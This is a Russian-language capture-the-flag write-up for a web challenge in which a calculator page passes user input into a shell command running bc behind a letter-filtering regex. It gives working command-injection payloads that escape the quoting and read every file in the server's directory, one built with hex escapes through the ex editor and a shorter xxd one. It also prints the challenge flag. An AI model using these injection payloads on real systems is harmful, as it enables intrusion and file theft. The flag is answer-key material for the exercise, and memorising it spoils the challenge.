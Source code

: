 BC (CTB 100)
=======
У нас есть онлайн калькулятор командной строки для Linux(https://hy17-bc.spb.ctf.su/)

Так же имеем исходный код страницы(https://hy17-bc.spb.ctf.su/?source), где мы передаем POST параметр `$expr`в
```php
shell_exec("bc 2>&1 <<<'$expr'")
```
Но есть проблема, перед тем как выполнить код выше, наш запрос проходит через регулярное выражение
```php
if (preg_match('#[g-wy-z]#si', $expr))
```
Которое гласит, что нам можно использовать только `[abcdefx]` и любые символы пунктуцации

Я очень долго искал решение к этому заданию, и пришел к такому выводу
```
'&&ex +%$'\x70' -$'\x73\x63\x71'! -c *;'
```
В нормальном виде выглядит так
```
'&&ex +%p -scq! -c *;'
```
`ex` - это текстовый редактор linux в котором можно выполнять команды bash как vim

Я говорю ему прочитать все, что есть во всех файлах лежащих в дирректории и перенаправляю вывод на командную строку

Перед там как написать свой Write-up, я глянул чужие работы и понял, что я сильно заморачивался и можно было так
```
';xxd f*;'
```
Обидно то, что вокруг этой команды я плясал оочень долго:D

И собственно флаг
> hy17{9edd3d10987207dc1f97a9bfc6af269f}
